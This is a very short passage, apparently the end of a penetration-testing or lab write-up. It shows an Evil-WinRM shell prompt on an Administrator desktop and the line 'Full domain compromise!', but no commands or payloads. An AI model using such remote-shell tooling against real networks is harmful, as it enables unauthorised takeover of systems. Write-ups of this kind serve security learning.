*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Full domain compromise!
